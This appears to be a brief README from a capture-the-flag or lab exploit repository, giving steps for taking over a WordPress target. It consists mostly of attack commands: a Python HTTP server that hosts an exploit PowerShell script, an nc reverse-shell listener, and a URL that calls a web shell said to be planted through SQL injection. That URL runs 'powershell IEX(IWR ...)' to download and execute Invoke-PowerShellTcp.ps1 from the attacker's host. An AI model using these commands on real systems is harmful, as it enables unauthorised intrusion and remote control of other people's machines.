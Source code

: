 ## haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

### 1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
```
sudo python3 -m http.server 80
```
### 2. create ncat listener for shell
```
sudo rlwrap nc -nvlp 443
```
### 3. go to the updates url we created with the sqli and start that script
```
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
```
